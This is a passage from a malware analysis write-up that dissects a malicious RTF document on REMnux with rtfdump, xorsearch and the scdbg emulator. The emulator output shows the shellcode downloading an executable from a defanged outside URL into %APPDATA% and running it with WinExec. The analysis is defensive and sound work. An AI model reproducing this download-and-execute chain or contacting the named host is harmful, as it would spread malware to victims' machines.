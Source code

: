 
Stream 1 has the string `EqUATiON.3` pretty close to its head, so that's going to be our best bet to keep analysis going. We can extract it using `rtfdump.py` again.

```console
remnux@remnux:~/cases/tesla-rtf$ rtfdump.py -d -H -s 1 orden.rtf > 1.dat

remnux@remnux:~/cases/tesla-rtf$ file 1.dat 
1.dat: data
```

It looks like the first stream exported and gave us some data as expected. For the next step, we need to deduce the entry point of the shellcode. From there we can emulate the shellcode execution. The best way I've seen to identify the shellcode entry point so far is to use `xorsearch.py -W`.

```console
remnux@remnux:~/cases/tesla-rtf$ xorsearch -W 1.dat 
Found XOR 00 position 00000201: GetEIP method 2 EB11
Found ROT 25 position 00000201: GetEIP method 2 EB11
Found ROT 24 position 00000201: GetEIP method 2 EB11
Found ROT 23 position 00000201: GetEIP method 2 EB11
Found ROT 22 position 00000201: GetEIP method 2 EB11
Found ROT 21 position 00000201: GetEIP method 2 EB11
Found ROT 20 position 00000201: GetEIP method 2 EB11
Found ROT 19 position 00000201: GetEIP method 2 EB11
Found ROT 18 position 00000201: GetEIP method 2 EB11
Found ROT 17 position 00000201: GetEIP method 2 EB11
Found ROT 16 position 00000201: GetEIP method 2 EB11
Found ROT 15 position 00000201: GetEIP method 2 EB11
Found ROT 14 position 00000201: GetEIP method 2 EB11
Found ROT 13 position 00000201: GetEIP method 2 EB11
Found ROT 12 position 00000201: GetEIP method 2 EB11
Found ROT 11 position 00000201: GetEIP method 2 EB11
Found ROT 10 position 00000201: GetEIP method 2 EB11
Found ROT 09 position 00000201: GetEIP method 2 EB11
Found ROT 08 position 00000201: GetEIP method 2 EB11
Found ROT 07 position 00000201: GetEIP method 2 EB11
Found ROT 06 position 00000201: GetEIP method 2 EB11
Found ROT 05 position 00000201: GetEIP method 2 EB11
Found ROT 04 position 00000201: GetEIP method 2 EB11
Found ROT 03 position 00000201: GetEIP method 2 EB11
Found ROT 02 position 00000201: GetEIP method 2 EB11
Found ROT 01 position 00000201: GetEIP method 2 EB11
Score: 260
```

It looks like `xorsearch.py` located a GetEIP method used by shellcode to figure out its orientation in memory. We can feed that `00000201` offset into our shellcode emulator `scdbg`. 

And we get some text output from the emulator to show what the shellcode does (I went ahead and defanged the URL).

```console
401438  GetProcAddress(ExpandEnvironmentStringsW)
401477  ExpandEnvironmentStringsW(%APPDATA%\zxcbnmgu.exe, dst=12fad8, sz=104)
40148c  LoadLibraryW(UrlMon)
4014a7  GetProcAddress(URLDownloadToFileW)
401503  URLDownloadToFileW(hxxp://scottbyscott[.]com/ebux/try.exe, C:\users\remnux\Application Data\zxcbnmgu.exe)
40151f  GetProcAddress(WideCharToMultiByte)
40153d  WideCharToMultiByte(0,0,in=12fad8,sz=ffffffff,out=12fcf4,sz=104,0,0) = 0
40154d  GetProcAddress(WinExec)
401559  WinExec()
40156d  GetProcAddress(ExitProcess)
401571  ExitProcess(0)
```
